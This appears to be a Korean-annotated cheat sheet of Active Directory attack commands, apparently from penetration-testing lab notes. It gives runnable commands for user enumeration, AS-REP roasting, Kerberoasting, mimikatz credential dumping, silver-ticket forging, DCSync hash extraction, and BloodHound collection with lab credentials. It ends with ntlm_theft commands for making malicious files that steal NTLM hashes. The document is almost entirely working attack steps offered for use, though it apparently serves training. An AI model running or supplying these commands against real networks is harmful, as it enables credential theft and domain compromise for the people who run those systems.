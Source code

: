 # Enumeration
```bash
netexec smb [ip] -u guest -p '' --rid-brute

./kerbrute_linux_amd64 userenum --dc 192.168.133.40 -d haero /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

./enum4linux <ip>
```
---
# Impacket secretsdump
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```
- `-system SYSTEM` : `C:\Windows\System32\config\SYSTEM`
- `LOCAL` : ntds.dit와 SYSTEM 파일을 로컬에서 분석
---
# LDAP
```bash
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.160.122" "(objectclass=*)"
```
- `-x` : 기본 SASL 인증 대신 간단한 익명 또는 아이디-비밀번호 기반 인증을 사용
- `-b` :  LDAP 검색을 시작할 루트 경로를 의미. `DC=hutch,DC=offsec` → `hutch.offsec` 도메인을 의미
- `"(objectclass=*)"` : 모든 객체(Object)를 가져오라는 의미
---
# AS-REP Roasting
``` bash
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hash corp.com/pete
```

-   **-dc-ip** : 도메인 컨트롤러(DC)의 IP 주소를 지정.
-   **-request** : 실제로 AS-REP 요청을 보내 티켓을 가져옴.
-   **-outputfile** : 덤프한 해시를 저장할 파일 이름.
-   **corp.com/pete** : 대상 도메인/사용자 계정.

``` powershell
.\Rubeus.exe asreproast /nowrap
```

-   **asreproast** : AS-REP Roasting 공격 수행 모드.
-   **/nowrap** : 해시가 여러 줄로 나뉘지 않고 한 줄로 출력되도록 설정.
---
# Kerberoasting
``` powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

-   **kerberoast** : Kerberoasting 공격 수행 모드.
-   **/outfile** : 수집한 해시를 저장할 파일 지정.

``` bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

-   **-request** : SPN에 대해 실제 TGS 요청을 전송.
-   **-dc-ip** : 도메인 컨트롤러 IP.
-   **corp.com/pete** : 인증에 사용할 도메인/사용자.
---
# Silver Tickets
``` powershell
.\mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

whoami /user

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 '
/domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

klist

iwr -UseDefaultCredentials http://web04
```

-   **privilege::debug** : Mimikatz에서 SYSTEM 권한 디버그 권한 획득.
-   **sekurlsa::logonpasswords** : 현재 로그인된 세션에서 자격 증명
    덤프.
-   **whoami /user** : 현재 사용자 SID 확인.
-   **kerberos::golden** : 골든/실버 티켓 생성 명령.
    -   **/sid** : 도메인 SID 지정.
    -   **/domain** : 도메인 이름.
    -   **/ptt** : 생성한 티켓을 즉시 메모리에 삽입(Pass-the-Ticket).
    -   **/target** : 공격 대상 서비스 호스트.
    -   **/service** : 서비스 이름 (예: http, cifs 등).
    -   **/rc4** : 서비스 계정의 NTLM 해시.
    -   **/user** : 티켓에 삽입할 사용자 이름.
-   **klist** : 현재 메모리에 로드된 티켓 확인.
-   **iwr -UseDefaultCredentials** : 티켓을 이용해 웹 요청.
---
# Domain Controller Synchronization
``` powershell
.\mimikatz.exe

lsadump::dcsync /user:corp\Administrator
```

-   **lsadump::dcsync** : AD 복제 프로토콜을 악용하여 사용자 해시 요청.
-   **/user** : 대상 사용자 계정 지정.

``` bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023!"@192.168.50.70
```

-   **-just-dc-user** : 특정 사용자만 복제 요청.
-   **corp.com/jeffadmin** : 인증에 사용할 도메인/계정.
-   **패스워드** : 계정 암호.
-   **@192.168.50.70** : 도메인 컨트롤러 IP.

---
# CrackMapExec LDAP + BloodHound
```bash
cme ldap hokkaido-aerospace.com -u 'hrapp-service' -p 'Untimed$Runny' --bloodhound -c all -ns 192.168.94.135
```

- Linux/Kali 등에서 바로 실행 가능. LDAP 기반으로 대부분의 정보를 수집 가능하므로 SharpHound을 직접 업로드하지 않아도 됨.

1. **`cme ldap hokkaido-aerospace.com`**
    - `ldap`: LDAP 프로토콜을 사용하여 도메인 컨트롤러와 상호작용.
    - `hokkaido-aerospace.com`: 대상 도메인 이름.

2. **`--bloodhound`**
    - CME의 BloodHound 모듈 활성화.

4. **`-c all`**
    - BloodHound 모듈에서 실행할 **collector 옵션**을 지정.
    - `all` → 모든 수집기를 실행 (유저, 그룹, 컴퓨터, ACL, 세션 등).

4. **`-ns 192.168.94.135`**
    - `-ns`: 사용할 DNS 서버 지정 옵션.
    - `192.168.94.135`: DNS 서버의 IP 주소, 보통 도메인 컨트롤러
---
# Blood Hound Python
```bash
bloodhound-python -u "hrapp-service" -p 'Untimed$Runny' -d hokkaido-aerospace.com -c all --zip -ns 192.168.208.40
```
---
# steal ntml 
```bash
python3 ntlm_theft.py -g lnk -s <ip> -f vault
```
---
# Create malicious Windows file
- https://github.com/Greenwolf/ntlm_theft
